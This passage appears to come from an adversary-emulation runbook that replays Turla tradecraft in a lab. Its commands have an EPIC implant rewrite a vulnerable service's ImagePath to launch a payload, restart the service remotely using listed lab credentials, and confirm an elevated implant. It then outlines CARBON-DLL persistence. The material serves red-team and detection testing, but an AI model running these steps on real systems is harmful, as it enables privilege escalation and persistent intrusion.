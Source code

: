 * Wait 1 minute before tasking EPIC to modify the misconfigured ViperVPNSvc service to use our implant to execute:

```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | reg add "HKLM\system\currentcontrolset\services\ViperVPNSvc" /t REG_EXPAND_SZ /v ImagePath /d "cmd.exe /c %TEMP%\mxs_installer.exe" /f'
```

:arrow_right: Wait 1 minute before switching to your RDP session to `hobgoblin
(10.20.20.102)`. Minimize (do not close) the `hobgoblin (10.20.20.102)` RDP
window.

:arrow_right: RDP into `bannik (10.20.10.9)`, as `Frieda`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Frieda  | Password3! |

* Close any spurious windows.

* Open up an administrative Powershell session and run the following commands to remotely restart the service:

```powershell
sc.exe \\hobgoblin stop ViperVPNSvc
sc.exe \\hobgoblin start ViperVPNSvc
```

ℹ️ Starting the ViperVPN service should take at least 30 seconds and eventually
result in an error `[SC] StartService FAILED 1053`. The EPIC injector will wait
an additional 2 minutes before performing injection. If the `[SC] StartService
FAILED 1053` error occurs in less than 10 seconds and/or you don't receive a
new session, contact your Evals lead.

* Wait 1 minute and then :o: sign out of your RDP session to `bannik (10.20.10.9)` as `Frieda`

:arrow_right: Switch to your Kali attack station and confirm that a new elevated implant has registered.

### :moyai: Source Code

* EPIC
  * Execute commands [ExecCmd](../../Resources/EPIC/payload/src/epic.cpp#L47-L71)
  * Write results to log file [WriteResults](../../Resources/EPIC/payload/src/epic.cpp#L311-L345)

### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>
* <https://www.welivesecurity.com/wp-content/uploads/2018/01/ESET_Turla_Mosquito.pdf>

<br>

## Step 4 - Persistence

:microphone: `Voice Track:`

Step 4 emulates Turla deploying and installing CARBON-DLL as a second stage
malware onto Gunter's workstation in order to maintain persistence. CARBON-DLL,
a variant of CARBON relying on DLLs and asymmetric encryption, will inject an auxiliary
communications module DLL into an existing browser process on Gunter's workstation
to establish C2 communications via a redirector using HTTP requests. Once this communication
channel is created, the malware will run a few discovery commands on Gunter’s
device.
